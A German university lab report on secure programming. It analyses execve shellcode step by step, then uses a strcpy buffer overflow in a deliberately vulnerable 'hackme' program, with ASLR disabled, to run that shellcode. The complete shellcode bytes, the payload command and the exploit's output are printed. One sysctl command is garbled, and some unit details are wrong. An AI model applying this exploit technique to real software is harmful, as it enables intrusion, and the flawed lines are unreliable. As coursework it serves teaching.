\documentclass[12pt]{article}
\parindent0em
\parskip 1ex plus 0.4ex minus 0.4ex

\usepackage[a4paper,vmargin=30mm,hmargin=25mm]{geometry}
\usepackage{polyglossia}
\setdefaultlanguage{german}
\usepackage{fontspec}
\usepackage{lipsum}
\usepackage{xcolor}
\usepackage{listings}
\usepackage{hyperref}
\usepackage{graphicx}
\definecolor{lstbackground}{rgb}{0.95,0.95,1}      % hellgruener Rahmen
\lstset{language=Python}

\lstset{
  basicstyle=\small\ttfamily,
  backgroundcolor=\color{lstbackground},
  keywordstyle=\bfseries\ttfamily\color{blue},
  stringstyle=\color{orange!50!black}\ttfamily,
  commentstyle=\color{gray}\ttfamily,
  showstringspaces=false,
  flexiblecolumns=false,
  tabsize=4,
  numbers=left,
  numberstyle=\tiny,
  numberblanklines=true,
  stepnumber=1,
  numbersep=10pt,
  xleftmargin=15pt,
  literate=%
  {Ö}{{\"O}}1
  {Ä}{{\"A}}1
  {Ü}{{\"U}}1
  {ß}{{\ss}}1
  {ü}{{\"u}}1
  {ä}{{\"a}}1
  {ö}{{\"o}}1
  {~}{{\textasciitilde}}1
}

\begin{document}

\begin{center}
  \textbf{\LARGE Sichere Programmierung} \\[1ex]%
  \textbf{\Large Projekt 3}\\[2ex] %
  David Pierre Sugar\\ %
  (76050) \\ %
  Julian Sobott\\ %
  (76511) \\ %
  
\end{center}

\tableofcontents

% ****************************************************************************
\section{Einleitung}
% ****************************************************************************
Nachdem wir uns während des letzten Praktikums grundlegend mit Assembler und dem GDB auseinander gesetzt haben, wird es nun Zeit diese neu gewonnenen Fähigkeiten zu nutzen um einen größeren Assembler-Code-Block zu analysieren.
\newline
\newline
Wie auch im letzten Praktikum greifen wir dabei auf die \textbf{GEF} Erweiterung für GDB zu.

% ****************************************************************************
\section{Ein interessanter Shellcode}
% ****************************************************************************
Auf den ersten Blick scheint der hier vorliegende Shellcode wirklich interessant. Beim überfliegen der Codezeilen fällt dabei auf, dass mittels \texttt{PUSH} und \texttt{POP} Operationen überdurchschnittlich oft der \textbf{Stack verändert wird}. Auch werden in einigen Zeilen bisher noch nicht zuordnungsbare \textbf{Konstanten} auf den Stack gepushed. Am Schluss wird jedoch ein \textbf{Systemcall} ausgeführt was dafür spricht, dass die für den Systemcall nötigen Daten auf dem Stack vorbereitet werden.
\newline
\newline
Da sich der Ablauf jedoch nicht so ohne weiteres ablesen lässt, wird im ersten Schritt der Shellcode \texttt{Zeile für Zeile} analysiert.

% ----------------------------------------------------------------------------
\subsection{Analyse}
% ----------------------------------------------------------------------------
Bei der Analyse von Assembler Code sollte man sich als erstes bewusst machen, \textbf{welche Register} involviert sind und wie der zugehörige \textbf{Stack Frame} ausgelegt ist. Dafür beginnt man in der ersten Zeile, analysiert diese und hält mögliche Veränderungen von Registern und Stack fest. Diesen Schritt wiederholt man Schritt für Schritt in jeder Code Zeile. Dabei sollte man dem Programmfluss folgen, d.h. bei einem Branch fährt man, mit der Analyse, beim angegebenen Sprungziel fort.
\newline
\newline
Das folgende Diagramm zeigt die vollständige Analyse des Shellcodes. Dabei werden teilweise mehrere Instruktionen in einem Schritt behandelt, wenn diese logisch zusammenhängen.
\newline

\begin{lstlisting}
Vorbedingung:

STACK:
---------------------------- <- RSP

REGISTER:   -

1. #######################################################

Code:
xor     rcx, rcx
push    rcx

STACK:
----------------------------
|           0x0            |
---------------------------- <- RSP

REGISTER:   RCX = 0x0

2. #######################################################

Code:
mov rcx, 0x68732f6e69622fff

STACK:
----------------------------
|           0x0            |
---------------------------- <- RSP

REGISTER:   RCX = 0x68732f6e69622fff

3. #######################################################

Code:
shr rcx, 0x8    ; rcx >> 8

STACK:
----------------------------
|           0x0            |
---------------------------- <- RSP

REGISTER:   RCX = 0x0068732f6e69622f


4. #######################################################

Code:
push rcx

STACK:
----------------------------
|           0x0            |
----------------------------
|   0x0068732f6e69622f     |
---------------------------- <- RSP

REGISTER:   RCX = 0x0068732f6e69622f

5. #######################################################

Code:
push rsp

STACK:
----------------------------
|           0x0            |
----------------------------
|   0x0068732f6e69622f     |
---------------------------- <- A
|            A             |
---------------------------- <- RSP

REGISTER:   RCX = 0x0068732f6e69622f

6. #######################################################

Code:
pop rdi

STACK:
----------------------------
|           0x0            |
----------------------------
|   0x0068732f6e69622f     |
---------------------------- <- A/ RSP

REGISTER:   RCX = 0x0068732f6e69622f
            RDI = A


7. #######################################################

Code:
xor     rcx, rcx
push    rcx

STACK:
----------------------------
|           0x0            |
----------------------------
|   0x0068732f6e69622f     |
---------------------------- <- A
|           0x0            |
---------------------------- <- RSP

REGISTER:   RCX = 0x0
            RDI = A

8. #######################################################

Code:
push word 0x632d

STACK:
----------------------------
|           0x0            |
----------------------------
|   0x0068732f6e69622f     |
---------------------------- <- A
|           0x0            |
----------------------------
|          0x632d          |        2-Bytes
---------------------------- <- RSP

REGISTER:   RCX = 0x0
            RDI = A

9. #######################################################

Code:
push rsp

STACK:
----------------------------
|           0x0            |        
----------------------------
|   0x0068732f6e69622f     |    
---------------------------- <- A
|           0x0            |    
----------------------------
|          0x632d          |        2-Bytes
---------------------------- <- B
|            B             |    
---------------------------- <- RSP

REGISTER:   RCX = 0x0
            RDI = A

10. #######################################################

Code:
pop rbx

STACK:
----------------------------
|           0x0            |        
----------------------------
|   0x0068732f6e69622f     |    
---------------------------- <- A
|           0x0            |    
----------------------------
|          0x632d          |        2-Bytes
---------------------------- <- B/ RSP

REGISTER:   RCX = 0x0
            RDI = A
            RBX = B

11. #######################################################

Code:
xor     rcx, rcx
push    rcx

STACK:
----------------------------
|           0x0            |        
----------------------------
|   0x0068732f6e69622f     |        
---------------------------- <- A
|           0x0            |        
----------------------------
|          0x632d          |        2-Bytes
---------------------------- <- B
|           0x0            |        
---------------------------- <- RSP

REGISTER:   RCX = 0x0
            RDI = A
            RBX = B


12. #######################################################

Code:
jmp     command
call    execve
data:   db "ls -lA"     ; Die Adresse des Strings wird
                        ; wird als Rücksprungadresse auf den Stack
                        ; gepushed
STACK:
----------------------------
|           0x0            |    
----------------------------
|   0x0068732f6e69622f     |
---------------------------- <- A
|           0x0            |
----------------------------
|          0x632d          |        2-Bytes
---------------------------- <- B
|           0x0            |    
----------------------------
|            x-------------|------------> "ls -lA"
---------------------------- <- RSP

REGISTER:   RCX = 0x0
            RDI = A
            RBX = B

13. #######################################################

Code:
pop     rdx
push    rdx

STACK:
----------------------------
|           0x0            |    
----------------------------
|   0x0068732f6e69622f     |
---------------------------- <- A
|           0x0            |
----------------------------
|          0x632d          |        2-Bytes
---------------------------- <- B
|           0x0            |    
----------------------------
|            x-------------|------------> "ls -lA"
---------------------------- <- RSP

REGISTER:   RCX = 0x0
            RDI = A
            RBX = B
            RDX = PTR to "ls -lA"

14. #######################################################

Code:
xor byte [rdx+5], 0x41      ; ersetze A durch \0 (ASCII 0x41 = 'A')

STACK:
----------------------------
|           0x0            |    
----------------------------
|   0x0068732f6e69622f     |
---------------------------- <- A
|           0x0            |
----------------------------
|          0x632d          |        2-Bytes
---------------------------- <- B
|           0x0            |    
----------------------------
|            x-------------|------------> "ls -l\0"
---------------------------- <- RSP

REGISTER:   RCX = 0x0
            RDI = A
            RBX = B
            RDX = PTR to "ls -l\0"

15. #######################################################

Code:
push rbx

STACK:
----------------------------
|           0x0            |    
----------------------------
|   0x0068732f6e69622f     |
---------------------------- <- A
|           0x0            |
----------------------------
|          0x632d          |        2-Bytes
---------------------------- <- B
|           0x0            |    
----------------------------
|            x-------------|------------> "ls -l\0"
----------------------------
|            B             |
---------------------------- <- RSP

REGISTER:   RCX = 0x0
            RDI = A
            RBX = B
            RDX = PTR to "ls -l\0"


16. #######################################################

Code:
push rdi

STACK:
----------------------------
|           0x0            |    
----------------------------
|   0x0068732f6e69622f     |
---------------------------- <- A
|           0x0            |
----------------------------
|          0x632d          |        2-Bytes
---------------------------- <- B
|           0x0            |    
----------------------------
|            x-------------|------------> "ls -l\0"
----------------------------
|            B             |
----------------------------
|            A             |
---------------------------- <- RSP

REGISTER:   RCX = 0x0
            RDI = A
            RBX = B
            RDX = PTR to "ls -l\0"

17. #######################################################

Code:
push rsp

STACK:
----------------------------
|           0x0            |    
----------------------------
|   0x0068732f6e69622f     |
---------------------------- <- A
|           0x0            |
----------------------------
|          0x632d          |        2-Bytes
---------------------------- <- B
|           0x0            |    
----------------------------
|            x-------------|------------> "ls -l\0"
----------------------------
|            B             |
----------------------------
|            A             |
---------------------------- <- C
|            C             |
---------------------------- <- RSP

REGISTER:   RCX = 0x0
            RDI = A
            RBX = B
            RDX = PTR to "ls -l\0"

18. #######################################################

Code:
pop rsi

STACK:
----------------------------
|           0x0            |    
----------------------------
|   0x0068732f6e69622f     |
---------------------------- <- A
|           0x0            |
----------------------------
|          0x632d          |        2-Bytes
---------------------------- <- B
|           0x0            |    
----------------------------
|            x-------------|------------> "ls -l\0"
----------------------------
|            B             |
----------------------------
|            A             |
---------------------------- <- C/ RSP

REGISTER:   RCX = 0x0
            RDI = A
            RBX = B
            RDX = PTR to "ls -l\0"
            RSI = C

19. #######################################################

Code:
xor rdx, rdx
mov al, 0x3B

STACK:
----------------------------
|           0x0            |    
----------------------------
|   0x0068732f6e69622f     |
---------------------------- <- A
|           0x0            |
----------------------------
|          0x632d          |        2-Bytes
---------------------------- <- B
|           0x0            |    
----------------------------
|            x-------------|------------> "ls -l\0"
----------------------------
|            B             |
----------------------------
|            A             |
---------------------------- <- C/ RSP

REGISTER:   RCX = 0x0
            RDI = A
            RBX = B
            RDX = 0x0
            RSI = C
            RAX = 0x000000000000003B


20. #######################################################

Code:                   SYSCALL

\end{lstlisting}

\newpage
\begin{center}
    {\Large Zum Zeitpunk des Systemcalls liegt folgender Zustand vor.}
\end{center}

\begin{lstlisting}
STACK:
----------------------------
|           0x0            |    
----------------------------
|   0x0068732f6e69622f     | <--------------------------
----------------------------                           |
|           0x0            |                           |
----------------------------                           |
|          0x632d          | <-----------------------  |
----------------------------                        |  |
|           0x0            |                        |  |
----------------------------                        |  |
|            x-------------|------------> "ls -l\0" |  |
----------------------------                        |  |
|            B-------------|-------------------------  |
---------------------------|                           |
|            A-------------|----------------------------
---------------------------- <- C

REGISTER:   RCX = 0x0
            RDI = A
            RBX = B
            RDX = 0x0
            RSI = C
            RAX = 0x000000000000003B

\end{lstlisting}

Als nächstes gilt es zu klären, welcher Systemcall aufgerufen wird und welche Argumente dabei übergeben werden. Dazu muss man sich jedoch über die \textbf{Systemcall Calling Convention}, für x86-64Bit, im klaren sein.

% *****************************************************************
\subsubsection{Systemcalls}
% *****************************************************************
Der Linux Kernel stellt eine Reihe von Operationen bereit, die er stellvertretend für andere Prozesse ausführen kann. Dazu zählen u.a. Operationen zum allozieren von Speicher auf dem Heap oder auch Zugriffe auf Dateien. Die Schnittstelle bildet dabei die \textbf{syscall} Instruktion für neuere 64-Bit Systeme, bzw. die \textbf{0x80} Instruktion für ältere 32-Bit Systeme.

\subsubsection*{Calling Convention}
Die Operation, die der Kernel für einen Prozess ausführen soll wird durch die sog. \textbf{Syscall Number} spezifiziert, die in das \texttt{RAX} Register geschrieben wird. So wird ein \texttt{READ} Befehl z.B. durch die Nummer \textbf{0x0} angegeben.
\newline
\newline
Die Argumente für jeden Systemcall werden \textbf{mittels Register} übergeben. Für 64 Bit Programme wären dies, in der angegebenen Reihenfolge: \texttt{RDI, RSI, RDX, RCX, R10, R8, R9}.
\newline
\newline
Nachdem die jeweilige Syscall Number in das RAX Register geschrieben wurde und die Argumente ebenfalls in die entsprechenden Register, kann mit dem \texttt{syscall} Befehl eine Anfrage abgesetzt werden.


\subsubsection*{Ablauf}
Durch die \texttt{syscall} Instruktion wechselt der Prozessor vom \textbf{User Mode} in den \textbf{Kernel Mode} und ruft den \textbf{Trap Handler} auf. Dieser überprüft ob es sich bei dem in RAX hinterlegten Wert um eine valide Syscall Number handelt. Falls ja indiziert der Trap Handler die \textbf{System Call Service Routine Table} um die Adresse der zur Syscall Number gehörenden \textbf{Systemcall Service Routine} zu erhalten und springt zu dieser.
\newline
\newline
Die Systemcall Service Routine prüft als erstes, ob die übergebenen Argumente, falls es welche gibt, valide sind, z.B. ob Adressen an erlaubte Stellen im Speicher zeigen und führt danach die gewünschte Aktion aus. Der Ablauf eines Systemcalls ist dabei natürlich noch viel komplexer, für unsere Zwecke reicht in diesem Fall jedoch ein grundlegendes Verständnis.
\newline
\newline
Eine vollständige Liste aller Systemcalls und der zu übergebenden Argumente findet sich online, z.B. \href{https://blog.rchapman.org/posts/Linux_System_Call_Table_for_x86_64/}{hier}.


% ----------------------------------------------------------------------------
\subsection{Analyse Fortsetzung}
% ----------------------------------------------------------------------------
Da die Syscall Number immer über das \textbf{A-Register} angegeben wird, ist es nun eine Leichtigkeit herauszufinden, welcher Syscall im gegebenen Shellcode verwendet wird. Der Wert der zur Zeit des Syscalls in RAX steht ist \textbf{59}. Durch eine kurze Onlinerecherche ergibt sich damit, dass es sich hierbei um den \textbf{execve} Syscall handelt. Dieser hat folgende Struktur.
\begin{lstlisting}
execve(const char* filename, const char* const argv[], 
    const char* const envp[])
\end{lstlisting}

% *****************************************************************
\subsubsection{Exec}
% *****************************************************************
Die Familie der \textbf{exec} System Calls wir dazu genutzt den derzeit laufenden Prozess durch einen neuen Prozess zu ersetzen (siehe man execve). Die einzelnen Parameter haben dabei folgende Bedeutungen.

\begin{description}
    \item [\textbf{filename}] Nullterminierter String ($'\setminus0'$) des Programms, mit dem der derzeitige Prozess ersetzt werden soll.

    \item [\textbf{argv}] Mit \texttt{'(char*) NULL'} terminiertes Array von Kommandozeilen Parametern als Strings. 

    \item [\textbf{envp}] Mit \texttt{'(char*) NULL'} terminiertes Array von Environment-Variablen als Strings.
\end{description}
Bei Erfolg wird der derzeitige Prozess durch das in \texttt{filename} angegebene Programm ersetzt. Bei einem fehlerhaften Aufruf von execve, wird \texttt{-1} zurückgegeben.
\newline
\newline
Um den derzeitigen Prozess z.B. durch eine Shell zu ersetzen, kann folgender Aufruf verwendet werden.
\begin{lstlisting}
execve("/bin/sh\0", NULL, NULL)
\end{lstlisting}
Hier wurde auf die Übergabe von Argumenten an den neuen Prozess verzichtet.
\newline

Schaut man sich nun das Layout des Stacks unmittelbar vor dem Aufruf von \texttt{syscall} an, kann man diesen in drei Teilbereiche gliedern, die jeweils für \texttt{filename, argv und envp stehen}. Weiterhin können die bisher noch nicht zuordnungsbaren Hexadezimalzahlen als Strings interpretiert werden. Dabei ist daran zu denken, dass Werte grundsätzlich im Little-Endian Format abgespeichert werden, d.h. das niederwertigste Byte wird an die unterste Speicheradresse geschrieben.

\begin{lstlisting}
STACK:
----------------------------
|           0x0            |    
----------------------------
|        "/bin/sh"         | ----------- filename
---------------------------- <- A / argv[0]
|           0x0            |                        
----------------------------                        
|           "-c"           |
---------------------------- <- B / argv[1]
|           0x0            |              ------------  
----------------------------                          |
|            x-------------|------------> "ls -l\0"   |
----------------------------                          |-- argv
|            B             |                          | 
---------------------------|                          |
|            A             |              ------------
---------------------------- <- C

REGISTER:   RDI = A     (filename)
            RSI = C     (argv)
            RDX = 0x0   (envp)

STRINGS:
            0x00  68  73  2f  6e  69  62   2f   = "/bin/sh"
              |_| |_| |_| |_| |_| |_| |_| |_|
               |   |   |   |   |   |   |   |
              \0   h   s   /   n   i   b   /

            0x63  2d                            = "-c"
              |_| |_|
               |   |
               c   -

\end{lstlisting}

Die untersten 32 Bit des Stacks bilden das argv Array. Jeder 8 Bit Block hält dabei einen Zeiger auf einen nullterminierten String. Darüber liegen die Strings, die in argv verwendet werden. \textbf{argv[0]/ A} spezifiziert dabei das aufzurufende Programm, \textbf{argv[1]/ B} ist die zu verwendende kommandozeilenoption, "-c", die übergeben werden soll. Die gegebene Option sorgt dafür, dass der nach den Optionen folgende String von der Shell ausgeführt wird. \textbf{argv[2]/ x} ist das in der Shell auszuführende Programm.
\newline
\newline
Mit diesen Informationen ergibt sich folgender Systemcall.

\begin{lstlisting}
char* argv[] = {"/bin/sh", "-c", "ls -l"};

execve("/bin/sh", argv, (char*) NULL);
\end{lstlisting}
Dieser ersetzt den derzeitigen Prozess mit einer neuen Shell und führt in dieser das Programm \texttt{ls -l} aus.

% ----------------------------------------------------------------------------
\subsection{Implementierung}
% ----------------------------------------------------------------------------
Um den Shellcode zu implementieren, wird dieser in eine Datei mit der Endung \textbf{.asm} übertragen, in diesem Fall \texttt{exec.asm}.
\newline
\newline
Mit \texttt{nasm -f elf64 exec.asm} kann danach eine 64-Bit Object Datei erzeugt werden.
\newline
\newline
Mit \texttt{ld -N exec.o -o exec} kann diese dann zu einer ausführbaren Datei gelinkt werden, um sie danach auszuführen. Wichtig ist, dass die \textbf{-N} Option mit angegeben wird, da die Text Section standardmäßig nicht schreibbar ist, wodurch jeder solche Versuch zu einem Segmentation fault führt.

\begin{lstlisting}[caption={Ohne -N Option}, captionpos=t]
>> nasm -f elf64 exec.asm
>> ld exec.o -o exec
>> ./exec
[1]    2822 segmentation fault (core dumped)  ./exec
\end{lstlisting}


\begin{lstlisting}[caption={Mit -N Option}, captionpos=t]
>> nasm -f elf64 exec.asm
>> ld -N exec.o -o exec
>> ./exec
total 12
-rwxr-xr-x 1 sugar sugar 848 Dec 25 14:21 exec
-rw-r--r-- 1 sugar sugar 754 Dec 25 14:11 exec.asm
-rw-r--r-- 1 sugar sugar 736 Dec 25 14:12 exec.o
\end{lstlisting}

% ----------------------------------------------------------------------------
\subsection{Entwicklung eins Python-Skript}
% ----------------------------------------------------------------------------
Um ein Skript zu entwickeln, dass den Shellcode über das Programm \textbf{hackme} ausführt, muss als erstes der Code aus der Object (.o) Datei extrahiert werden. Dazu kann das Programm \textbf{objcopy} verwendet werden.

\begin{lstlisting}
objcopy -O binary exec.o exec.bin
\end{lstlisting}

Die \textbf{-O binary} Option generiert einen Speicher Dump des Inhalts der Quelldatei ohne dabei die Metainformationen zu übernehmen.
Nun muss der extrahierte Binärcode noch in Hexadezimal umformatiert werden, um ihn bequem in einem Skript nutzen zu können. Dies kann mit einem eigenen Python Skript realisiert werden, das als Ausgangspunkt für das eigentliche Skript dient.

\begin{lstlisting}
#!/bin/python2

import sys

shellcode           = ""
shellcode_length    = 0

binary = open(sys.argv[1], 'rb')

for byte in binary.read():
    shellcode = shellcode + ("\\x" + byte.encode("hex"))
    shellcode_length += 1

print(shellcode)
print("\nLength: " + str(shellcode_length))
\end{lstlisting}

Das Skript liest eine übergebene Binärdatei ein und wandelt der Reihe nach jedes Byte in seine Hexadizimalrepräsentation um. Gleichzeitig wird die Anzahl der Bytes, d.h. die Länge des Shellcodes ermittelt.
Wichtig ist, dass Python2 verwendet wird da unter Python3 für Bytes die \textbf{encode()} methode nicht mehr zur Verfügung steht. Mit diesem Skript lässt sich nun der extrahierte Binärcode in Hexadezimal umwandeln und auf der Kommandozeile ausgeben.

\begin{lstlisting}
>> ./exec_shellcode.py exec.bin 
\x48\x31\xc9\x51\x48\xb9\xff\x2f\x62\x69\x6e\x2f\x73
\x68\x48\xc1\xe9\x08\x51\x54\x5f\x48\x31\xc9\x51\x66
\x68\x2d\x63\x54\x5b\x48\x31\xc9\x51\xeb\x11\x5a\x52
\x80\x72\x05\x41\x53\x57\x54\x5e\x48\x31\xd2\xb0\x3b
\x0f\x05\xe8\xea\xff\xff\xff\x6c\x73\x20\x2d\x6c\x41

Length: 65
\end{lstlisting}

Als nächstes gilt es den Shellcode noch mit einem \textbf{NOP Sled} sowie einer \textbf{Rücksprungadresse} zu versehen um die letztendliche Payload zu erhalten. Dafür muss aber zuerst noch das \textbf{hackme} Programm analysiert werden, um die Größe des Sleds richtig wählen zu können.


% *****************************************************************
\subsubsection{Analyse von hackme}
% *****************************************************************
\begin{lstlisting}[caption={hackme.c}, captionpos=t]
#include <stdio.h>                                
#include <string.h>

void print(char* s) {
    char buffer[200];

    strcpy(buffer, s);  // SCHWACHSTELLE
    printf("Anfang von buffer: %p\n", buffer);
    printf("Inhalt von buffer: %s\n", buffer);
}

int main(int argc , char ** argv) {
    if (argc == 2) {
        print(argv [1]);
    } else {
        printf("Bitte ein Argument übergeben .\n");
    }

    return 0;
}
\end{lstlisting}

Das Programm \texttt{hackme} wurde mit dem Kommandozeilenbefehl 
\newline '\texttt{gcc -z execstack -fno-stack-protector hackme.c -o hackme}' compiliert. Durch die angegebene Option wird kein Canary Wert mit auf dem Stack hinterlegt, durch den normalerweise geprüft wird, ob eine Verletzung der Grenzen des Stack-Frames vorliegt. Außerdem wird mit \texttt{-z execstack} der Stack als ausführbar markiert, andernfalls könnte der Shellcode nicht ausgeführt werden und man müsste auf Alternativen wie z.B. \textbf{Return Oriented Programming (ROP)} ausweichen.
\newline
\newline
Das Programm wird nun mittels \texttt{GDB} debugged.
\begin{lstlisting}
>> gdb hackme
\end{lstlisting}
Die Schwachstelle befindet sich in der \textbf{print()} Funktion. Diese benutzt \textbf{strcpy()} um den Inhalt eines Buffers in einen zweiten Buffer zu übertragen. Dabei wird jedoch die Größe des Ziel-Buffers nicht berücksichtigt, wodurch es zu einem Buffer-Overflow kommen kann. Genau diese Schwachstelle ist der Eintrittspunkt für unseren Shellcode.
\newline
Als nächstes wird die \texttt{print()} Funktion disassembliert.
\begin{lstlisting}
gef> disass print
Dump of assembler code for function print:
   push   rbp
   mov    rbp,rsp
   sub    rsp,0xe0              ; alloziert 224 Bytes auf dem Stack
   mov    QWORD PTR [rbp-0xd8],rdi  ; speichert s auf dem Stack
   mov    rdx,QWORD PTR [rbp-0xd8]
   lea    rax,[rbp-0xd0]        ; rax := Adresse des Ziel Buffers
   mov    rsi,rdx               ; Source
   mov    rdi,rax               ; Target
   call   0x1030 <strcpy@plt>
   ...
\end{lstlisting}
Die gezeigten Befehle allozieren zuerst Speicher für den Buffer und den Parameter \texttt{s} auf dem Stack. Danach wird die Startadresse des allozierten Buffers in \texttt{RDI} und die Adresse des Quell-Buffers in \texttt{RSI} geschrieben.
\newline
\newline
Damit ergibt sich folgendes Layout für den Stack-Frame.

\begin{lstlisting}
STACK:
----------------------------
|      RETURNADDRESS       |            8 Byte 
----------------------------
|       SAVED RBP          |            8 Byte
---------------------------- <- RBP
|                          |            8 Byte
----------------------------
|                          |
|                          |
|         BUFFER           |            200 Byte
|                          |
|                          |
---------------------------- <- buffer
|         char* s          |            8 Byte
----------------------------
|                          |            8 Byte
---------------------------- <- RSP
\end{lstlisting}
Zwischen dem Anfang des Buffers und der Rücksprungadresse liegen \textbf{216 Bytes}, d.h. durch die Übergabe eines Strings w der Länge \textbf{|w| > 216}, an hackme, kann die Rücksprungadresse kontrolliert werden.
\newline
\newline
\newline
Um den Shellcode durch hackme ausführen zu können, muss nun eine geeignete Payload erstellt werden. Diese besteht aus einem NOP Sled, dem Shellcode und schlussendlich einer Adresse die in den Sled zeigt.
\begin{lstlisting}
      -------------------------
      ||                      |
      \/                      |
|  N x '0x90' | Shellcode | ADDR |
\end{lstlisting}
NOPs sind Instruktionen, die zu keiner Veränderung des Zustands einzelner Register führen (außer RIP). Früher wurden solche Instruktionen häufig eingesetzt um auf die Ergebnisse vorangegangener Instruktionen zu warten, die noch nicht vorlagen. Damit der übergebene Shellcode ausgeführt werden kann, muss der Instruction Pointer so manipuliert werden, dass er auf den Anfang des übergebenen Codes Zeigt. Dies geschieht durch das Überschreiben der Rücksprungadresse. Durch das Überschrieben der Rücksprungadresse springt der Prozess nicht zurück in die aufrufende Funktion sondern an eine von uns gewünschte Stelle. Durch einen NOP Sled muss die Sprungadresse nicht mehr exakt angegeben werden, sondern nur noch in den Sled zeigen. Sobald der Prozess in den Sled gesprungen ist, 'rutscht' er einfach bis zur ersten Instruktion des Shellcodes durch. Dies vereinfacht die Injektion des Shellcodes. Dabei gilt, je größer der Sled um so besser.
Ziel ist es nun NOP Sled und Adresse so zu wählen, dass das Programm den Shellcode ausführt. 
\newline
\newline
Um die Rücksprungadresse überschreiben zu können, muss der übergebene String 216 Bytes lang sein, plus die \textbf{sechs Byte, die die Rücksprungadresse darstellen}. Der Shellcode selber ist 65 Bytes lang.
Daraus ergibt sich, dass der NOP Sled $ 216 - 65 = 151 $ Bytes lang sein muss. Nach dem \texttt{strcpy()} aufruf sollte der Stack demnach wie folgt aussehen.

\begin{lstlisting}
STACK:
----------------------------
|          ADDR ===========|=======================
----------------------------   --                 ||
|                          |     |                ||
|        SHELL CODE        |     |- 65 Bytes      ||
|                          |     |                ||
----------------------------   --                 ||
|                          |     |                ||
|     151 x '0x90'         |     |-- 151 Bytes    ||
|                          |     |                ||
|                          |<======================
----------------------------   --
\end{lstlisting}


Nun gilt es noch eine \textbf{gültige Adresse} zu wählen, damit an die richtige Stelle im Stack gesprungen wird. In diesem Fall ist für Übungszwecke \textbf{ASLR} (address space layout randomization), eine zufällige Wahl der Speicheradressen, ausgeschaltet. Dies vereinfacht den Prozess der Adresswahl, da diese nur einmal ermittelt werden muss. Andernfalls müsste z.B. auf ein \textbf{Brute-Force} Ansatz zurückgegriffen werden, bei dem das Programm sooft ausgeführt wird, bis die Sprungadresse durch Zufall tatsächlich im NOP Sled liegt. Dies ist wahrscheinlicher als es sich anhört, da die ersten 12 Bit der Adresse statisch sind, was die Wahrscheinlichkeit für einen Treffer erhöht.
\newline
\newline
Es gibt dabei verschiedene Stufen von ASLR, nämlich 0 (aus) , 1 und 2 (vollständig). Durch das Schreiben in die Datei '\texttt{/proc/sys/kernel/randomize\_va\_space}' kann dieser geändert werden.
Um ASLR nun auf dem System temporär auszuschalten kann folgender Kommandozeilenbefehl verwendet werden, der die Zahl 0 in die genannte Datei schreibt.

\begin{lstlisting}
>> sudo sysctl -w kernel.randomize_va_space= sudo sysctl -w kernel.randomize_va_space=00 
\end{lstlisting}
Das Programm hackme kommt einem bei der Suche nach der richtigen Sprungadresse sogar noch zuvor, indem es die Adresse der Startadresse des Buffers beim Ausführen mit angibt. Andernfalls kann man auch GDB nutzen um eine geeignete Adresse zu erhalten.
\newline
\newline
Zum Vergleich hier die Ausgabe einmal mit ASLR eingeschaltet und einmal ohne.
\begin{lstlisting}[caption={ASLR enabled}, captionpos=t]
» cat /proc/sys/kernel/randomize_va_space     
2
» ./hackme hello                              
Anfang von buffer: 0x7ffdc776aec0
Inhalt von buffer: hello
» ./hackme hello                              
Anfang von buffer: 0x7fffa0345140
Inhalt von buffer: hello
\end{lstlisting}

\begin{lstlisting}[caption={ASLR disabled}, captionpos=t]
» cat /proc/sys/kernel/randomize_va_space     
0
» ./hackme hello                              
Anfang von buffer: 0x7fffffffdeb0
Inhalt von buffer: hello
» ./hackme hello
Anfang von buffer: 0x7fffffffdeb0
Inhalt von buffer: hello
\end{lstlisting}
Im ersten Beispiel ist ASLR eingeschaltet, d.h. randomize\_va\_space enthält den Wert 2. Jeder Aufruf von hackme führt zu einer gänzlich anderen Adresse, wobei sich die vorderen 12 Bit jeweils nicht verändern.
\newline
Im zweiten Beispiel ist ASLR augeschaltet. Hier werden bei jedem Aufruf die selben Adressen verwendet.

% *****************************************************************
\subsubsection{Den Shellcode ausführen}
% *****************************************************************
Nun wird es Zeit, die Theorie in die Praxis umzusetzen und erst einmal ohne Skript den Shellcode über hackme auszuführen. Dafür wird folgender Pyhton Befehl auf der Kommandozeile ausgeführt und danach durch Command Substitution, hackme als Argument übergeben.
\newline
\textbf{Aufgrund eines bisher nicht nachvollziehbaren Fehlers, wurde der Ansatz gewechselt und auf einen NOP Sled verzichtet. Stattdessen wird der benötigte Platz mit einer Folge von beliebigen Zeichen aufgefüllt, um die Rücksprungadresse überschreiben zu können}.
\newline

\begin{lstlisting}
./hackme "$(python -c 'print "\x48\x31\xc9\x51\x48\xb9\xff\x2f\x62\x69
\x6e\x2f\x73\x68\x48\xc1\xe9\x08\x51\x54\x5f\x48\x31\xc9\x51\x66\x68
\x2d\x63\x54\x5b\x48\x31\xc9\x51\xeb\x11\x5a\x52\x80\x72\x05\x41\x53
\x57\x54\x5e\x48\x31\xd2\xb0\x3b\x0f\x05\xe8\xea\xff\xff\xff\x6c\x73
\x20\x2d\x6c\x41AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA
AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA
AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA\x50\xdd\xff\xff\xff\x7f"')"
Anfang von buffer: 0x7fffffffdd50
Inhalt von buffer: H1�QH��/bin/shH�QT_H1�Qfh-cT[H1�Q�ZR�rASWT^H1Ұ;�����ls 
-lAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA
AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA
AAAAAAAAP����
total 72
-rwxrwxr-x 1 tux tux   489 Jan  5 11:45 convert.py
-rwxrwxr-x 1 tux tux    90 Jan  5 10:48 ding.sh
-rwxrwxr-x 1 tux tux   848 Jan  5 10:20 exec
-rw-rw-r-- 1 tux tux   754 Jan  5 11:22 exec.asm
-rw-rw-r-- 1 tux tux    65 Jan  5 10:22 exec.bin
-rw-rw-r-- 1 tux tux   736 Jan  5 10:20 exec.o
...
\end{lstlisting}

